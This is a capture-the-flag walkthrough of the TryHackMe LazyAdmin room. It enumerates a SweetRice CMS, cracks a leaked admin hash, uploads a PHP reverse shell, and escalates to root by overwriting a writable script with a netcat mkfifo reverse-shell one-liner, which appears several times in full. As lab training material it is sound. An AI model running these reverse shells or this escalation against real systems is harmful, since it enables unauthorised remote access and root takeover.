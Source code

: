 # LazyAdmin

![An image of Lazy Admin THM room](https://i.imgur.com/3B6uSkg.jpg)

[Play](https://tryhackme.com/room/lazyadmin)

## 1. Enumeration + Exploration
### 1.1. Port Scanning
```
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -A 10.10.249.26
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-24 02:40 EDT
Nmap scan report for 10.10.249.26
Host is up (0.20s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.08 seconds
```

Noting too out of the blue here. Let's go to the gobsuter scans for Web Enumeration.

### 1.2. Web Enumeration
```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u 10.10.249.26 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q
/content              (Status: 301) [Size: 314] [--> http://10.10.249.26/content/]

```

Ah. Going to that page, we see the below.

![Content page, SweetRice CMS](https://i.imgur.com/Y3JQljF.png)

Let's enumerate the `/content/` directory in parallel.

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u 10.10.249.26/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q

/images               (Status: 301) [Size: 321] [--> http://10.10.249.26/content/images/]
/js                   (Status: 301) [Size: 317] [--> http://10.10.249.26/content/js/]    
/inc                  (Status: 301) [Size: 318] [--> http://10.10.249.26/content/inc/]   
/as                   (Status: 301) [Size: 317] [--> http://10.10.249.26/content/as/]    
/_themes              (Status: 301) [Size: 322] [--> http://10.10.249.26/content/_themes/]
/attachment           (Status: 301) [Size: 325] [--> http://10.10.249.26/content/attachment/]
```

This gives us a lot to explore. 

### 1.3. Web Exploration
We see the version of the sowftware being used.

![SweetRice CMS version](https://i.imgur.com/tI4jMIH.png)

We also see some backup files as below.

![MySQL backup directory](https://i.imgur.com/H8DcAho.png)

```
┌──(kali㉿kali)-[/tmp]
└─$ cat mysql_bakup_20191129023059-1.5.1.sql 
<?php return array (
  0 => 'DROP TABLE IF EXISTS `%--%_attachment`;',
  1 => 'CREATE TABLE `%--%_attachment` (

{some more info}

) ENGINE=MyISAM AUTO_INCREMENT=4 DEFAULT CHARSET=utf8;',
  14 => 'INSERT INTO `%--%_options` VALUES( {...} "admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44c****\\
  
  {some more information here}
  
  KEY `date` (`date`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
);?>   
```
### 1.4. Hash Cracking
We get the hash, and we can now use an online tool like CrackStation 

![](https://i.imgur.com/PR00S0g.png)

`42f749ade7f9e195bf475f37a44****: ***********`

And voila! We have the creds. The username is also mentioned closely ;)

Now what?

### 1.5. More Web Exploration
There's one link that we missed out on before.

Let's go to: `/content/as/`

![](https://i.imgur.com/KhaWHVq.png)

Using the credentials as found before, we are in!


### 1.6. Admin Page
![Admin page of SweetRice](https://i.imgur.com/QDWO8I3.png)

![Details and Settings of SweetRice](https://i.imgur.com/ebre2uF.png)

I also found more credentials lying around. These may become important later on.

![Important Database Credentials](https://i.imgur.com/fR3h7hE.png)


Since we have the version and the credentials in hand, I found one epxloit which looks pretty tasty.

[SweetRice 1.5.1 - Arbitrary File Upload](https://www.exploit-db.com/exploits/40716)

Now, we attempt the foothold.

## 2. Foothold

We enter the initial creds found, which we used for logging in.

Also, use [RevShells](https://revshells.com/) to get the `PHP PentestMonkey` shell. 

![SweetRice Exploit](https://i.imgur.com/F0Jryka.png)

NOTE: `.php` did not work. It does not show in the uploads. Renaming it to `.php5` worked.

Also, start up netcat on the selected port, and go to the url given.

![SweetRice Exploit Working](https://i.imgur.com/VIJcmtD.png)


![Getting a shell with the exploit](https://i.imgur.com/SUECOzF.png)

\*in deep hacker voice\* I am in!

## 3. PrivEsc

We so a bit of exploration and we get some more creds. These are the same as what we saw before.
```
www-data@THM-Chal:/home/itguy$ cat mysql_login.txt
cat mysql_login.txt
rice:**********
```

Check sudo permissions.

```
www-data@THM-Chal:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

```

Okay backup scripts are usually interesting. Let's see.

```
www-data@THM-Chal:/$ cat /home/itguy/backup.pl
cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

What about the permissions?

```
www-data@THM-Chal:/home/itguy$ ls -la | grep backup
ls -la | grep backup
-rw-r--r-x  1 root  root    47 Nov 29  2019 backup.pl
```

We can't edit it. It runs another script named `/etc/copy.sh`. Let's check that out.

```
www-data@THM-Chal:/home/itguy$ cat /etc/copy.sh
cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

OOF looks like a reverse shell. Can we edit it though?

```
www-data@THM-Chal:/home/itguy$ ls -la /etc/copy.sh
ls -la /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

Uh ... its owned by root.

All hope lost? Well, check the permissions XD

Using [RevShells](https://www.revshells.com/), we ge the command,

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.17.8.184 1337 >/tmp/f`

I tried using nano, but it did not work. No vim either. So, we do `echo` :P

`www-data@THM-Chal:/etc$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.17.8.184 1234 >/tmp/f" > copy.sh`

Execute it as,

`www-data@THM-Chal:/home/itguy$ sudo /usr/bin/perl /home/itguy/backup.pl`

While having a listener setup using netcat. Remember: It needs to be on another port - because we are already using one we connected to before.

![Getting the reverse shell with root permissions](https://i.imgur.com/NnasIBg.png)

And ... we are done!
